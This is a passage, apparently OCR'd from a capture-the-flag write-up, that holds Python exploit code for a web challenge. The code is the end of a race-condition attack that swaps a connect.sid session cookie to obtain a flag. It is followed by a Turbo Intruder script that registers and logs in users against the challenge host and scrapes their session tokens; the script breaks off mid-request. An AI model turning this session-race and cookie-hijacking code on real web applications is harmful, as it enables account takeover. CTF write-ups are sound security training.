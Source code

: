```python
    # needs to wait for sussy_notes' sleep to enter the sleep mode for the race condition to be avaiable
    # and set the req.session.flash (restoring parcially the session)
    sleep(0.5)
    dm = deleteme()
    p.join()
    s.cookies.update({"connect.sid":c})
    get_flag()
```

Unintended Turbo Intruder exploit
```python
# Define the endpoint
local = True
if local:
    host = "localhost:3000"
    endpoint = "http://" + host
else:
    host = "nodenb.flu.xxx"
    endpoint = "https://" + host

# Where the token is stored after we register and login a user
token = ""


def collect_session_cookie(req, _):
    table.add(req)

    global token
    token = req.response.split("Set-Cookie: connect.sid=")[1].split("; Path")[0]


# Register and login a new user and get a session cookie
def register_and_login_user(user, pwd):
    # Register
    body = "username=" + user + "&password=" + pwd
    req_register_user = "\r\n".join(
        [
            "POST /register HTTP/1.1",
            "Host: " + host,
            "Content-Length: " + str(len(body)),
            "Content-Type: application/x-www-form-urlencoded",
            "",
            body,
        ]
    )
    engine = RequestEngine(endpoint=endpoint, callback=collect_session_cookie)
    engine.queue(req_register_user)
    engine.complete(timeout=2)

    # `token` has been set in `collect_session_cookie`
    assert token != ""

    # Login
    req_login_user = "\r\n".join(
        [
            "POST /login HTTP/1.1",
            "Host: " + host,
            "Content-Length: " + str(len(body)),
            "Content-Type: application/x-www-form-urlencoded",
            "Cookie: connect.sid= " + token,
            "",
            body,
        ]
```
